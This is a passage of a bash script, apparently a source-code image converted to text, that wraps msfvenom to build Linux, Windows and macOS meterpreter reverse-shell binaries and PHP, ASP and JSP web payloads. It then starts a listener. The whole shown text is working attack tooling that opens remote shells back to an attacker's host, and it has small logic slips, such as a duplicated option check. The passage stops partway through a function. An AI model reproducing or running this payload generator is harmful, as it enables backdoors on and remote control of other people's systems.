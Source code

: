 
binaries() {
clear
banner
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Binaries Payloads:\e[0m\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m01\e[0m\e[1;93m] Linux\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m02\e[0m\e[1;93m] Windows\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m03\e[0m\e[1;93m] MAC\e[0m\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m99\e[0m\e[1;93m]\e[0m\e[1;77m Back\e[0m\n"
printf "\n"
read -p $'\e[1;92m[*] Choose an option:\e[0m\e[1;77m ' option_bin

if [[ $option_bin == 1 || $option_bin == 02 ]]; then
start
payload="linux/x86/meterpreter/reverse_tcp"
binaries_linux
listener

elif [[ $option_bin == 2 || $option_bin == 02 ]]; then
start
payload="windows/meterpreter/reverse_tcp"
binaries_windows
listener
elif [[ $option_bin == 3 || $option_bin == 03 ]]; then
start
payload="osx/x86/shell_reverse_tcp/"
binaries_mac
listener
elif [[ $option_bin == 99 ]]; then
clear
menu_payload
else
printf "\e[1;93m[\e[1;77m!\e[0m\e[1;93m] Invalid option!\e[0m"
sleep 0.5
clear
binaries
fi
}

php_payload() {
format=".php"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f raw > $payload_name.php

}

asp_payload() {
format=".asp"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f raw > $payload_name.asp
}

jsp_payload() {
format=".jsp"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f raw > $payload_name.jsp
